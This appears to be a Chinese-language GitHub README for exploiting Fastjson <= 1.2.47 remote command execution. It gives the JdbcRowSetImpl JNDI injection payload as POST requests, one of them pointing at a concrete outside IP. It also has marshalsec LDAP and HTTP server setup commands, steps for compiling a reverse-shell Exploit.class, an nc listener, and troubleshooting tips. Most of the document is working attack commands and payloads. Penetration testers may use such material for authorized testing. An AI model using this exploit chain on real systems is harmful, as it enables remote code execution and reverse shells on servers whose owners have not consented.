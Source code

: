 # fastjson-1.2.47-RCE
Fastjson &lt;= 1.2.47 远程命令执行漏洞利用工具及方法，以及避开坑点

以下操作均在Ubuntu 18下亲测可用，openjdk需要切换到8，且使用8的javac
```
> java -version
openjdk versin "1.8.0_222"

> javac -version
javac 1.8.0_222
```

### 0x00 假设存在漏洞的功能

```
# param参数内容被fastjson调用解析

POST /note/submit/

param={'id':29384,'content':'Hello','type':'string'}
```

### 0x01 测试外连

准备一台服务器监听流量
```
nc -lvvp 7777
```

发送Payload，将IP改为监听服务器IP
```
POST /note/submit/

param={"name":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"x":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://IP:7777/Exploit","autoCommit":true}}}
```

如果监听服务器有流量，可以继续下一步

### 0x02 准备LDAP服务和Web服务

将marshalsec-0.0.3-SNAPSHOT-all.jar文件和Exploit.java放在同一目录下

在当前目录下运行LDAP服务,修改IP为当前这台服务器的IP
```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://IP/#Exploit
```

在当前目录下运行Web服务
```
python3 -m http.server 80 或者 python -m SimpleHTTPServer 80
```

### 0x03 修改Exploit并编译成class文件

修改Exploit.java中的反弹IP和端口（准备接收反弹SHELL的服务器IP和监听端口）

使用javac编译Exploit.java，生成Exploit.class文件（注意：javac版本最好与目标服务器接近，否则目标服务器无法解析class文件，会报错）
```
javac Exploit.java
```

### 0x03 准备

回顾一下，现在目录应该有三个文件
```
marshalsec-0.0.3-SNAPSHOT-all.jar
Exploit.java
Exploit.class
```

服务器正在开启LDAP和Web
```
LDAP Server：Listening on 0.0.0.0:1389
Web  Server：Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

一个nc正在准备接收反弹回来的SHELL
```
nc -lvvp 7777
```

### 0x04 执行
修改ip为正在运行LDAP和Web服务的服务器IP
```
POST /note/submit

param={"name":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"x":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://43.128.87.171:1389/Exploit","autoCommit":true}}
```

接下来如果没有任何报错的话，LDAP将会把请求Redirect到Web服务，Fastjson将会下载Exploit.class，并解析运行

你的LDAP服务和Web服务都会收到请求记录，如果没有问题，你的nc也会收到反弹回来的SHELL

### 0x05 问题

当javac版本和目标服务器差太多，会报一个下面那样的错误，所以需要使用1.8的javac来编译Exploit.java
```
Caused by: java.lang.UnsupportedClassVersionError: Exploit has been compiled by a more recent version of the Java Runtime (class file version 55.0), this version of the Java Runtime only recognizes class file versions up to 52.0
```

当运行LDAP的服务器java版本过高，会无法运行LDAP服务，虽然显示正在Listening，但是Fastjson的JNDI会报错，显示无法获取到资源，所以要使用java 1.8（openjdk 8）来运行LDAP服务
